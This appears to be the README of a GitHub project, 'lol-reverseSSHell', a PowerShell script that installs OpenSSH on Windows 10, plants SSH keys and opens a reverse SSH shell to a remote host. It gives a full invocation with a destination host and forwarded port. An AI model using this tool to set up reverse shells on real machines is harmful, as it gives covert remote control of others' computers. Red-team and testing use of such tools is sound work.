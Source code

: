 # lol-reverseSSHell
Living Off the LAN Reverse Shell over SSH for Windows 10

This script will install OpenSSH on Windows 10 via WindowsCapability. Then it will copy the sshd_config file, SSH private key, and authorized_keys file to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell serves CMD.exe by default. Once you're in the cmd cli, you can type 'powershell' to get a PS shell. 

* Please generate NEW SSH KEYs. Use the repo keys only for testing. 

Usage: 
.\lol-reverseSSHell.ps1 -DestinationUserName aj -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 5555 -InstallOpenSSHServer yes Powershell prompt run ./LoL-ReverseSSHell.ps1

get-help .\lol-reverseSSHell.ps1 

get-help .\lol-reverseSSHell.ps1 -Examples

![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)

